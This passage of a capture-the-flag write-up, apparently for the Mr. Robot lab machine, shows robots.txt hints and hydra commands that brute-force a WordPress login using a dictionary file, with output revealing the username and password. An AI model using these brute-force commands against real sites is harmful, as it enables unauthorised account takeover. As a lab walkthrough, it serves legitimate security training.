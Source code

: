 ### Flag 1

Also let’s have a look at the robots.txt file, as the hint for the first key is “robots”.

```plain:robots.txt
User-agent: *
fsocity.dic
key-1-of-3.txt
```

That seems interesting. We have the first key and we should probably also download the dictionary file. Maybe we will need it later.

## Gaining Access

Meanwhile, our dirbuster results should have come back. We can see a lot of folders and files relating to a WordPress installation probably for a blog. Especially interesting is the “wp-login.php” file in the root of the webserver. Maybe we can get in that way with the credentials we downloaded earlier? Let us try that.<br/>I used hydra with the following syntax:

```bash
hydra -L fsocity.dic -p test $IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP%2Fwp-admin%2F&testcookie=1:F=Invalid username"
```

Basically what we are doing is, we are trying to get the username from the .dic file. Luckily with WordPress, we can see whether the password or the username was wrong, so we first bruteforce the username and then the corresponding password.<br/>We are also telling hydra in which post parameter to insert the username and password. You can get the post parameters through burp suite.

```plain
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-08 11:20:46
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://$IP:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP%2Fwp-admin%2F&testcookie=1:F=Invalid username
[80][http-post-form] host: $IP  login: Elliot   password: test
```

Sweet! Now we got the user: **Elliot**

Next, let us try to get the password!

```bash
hydra -l Elliot -P fsocity.dic $IP http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP%2Fwp-admin%2F&testcookie=1:S=302"
```

We are using the same syntax as before but using “Elliot” as the username and the .dic file as a wordlist for the password.

```plain
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-08 11:22:21
[DATA] max 10 tasks per 1 server, overall 10 tasks, 10 login tries (l:1/p:10), ~1 try per task
[DATA] attacking http-post-form://$IP:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP%2Fwp-admin%2F&testcookie=1:S=302
[...]
[80][http-post-form] host: $IP   login: Elliot   password: ER28-0652
```
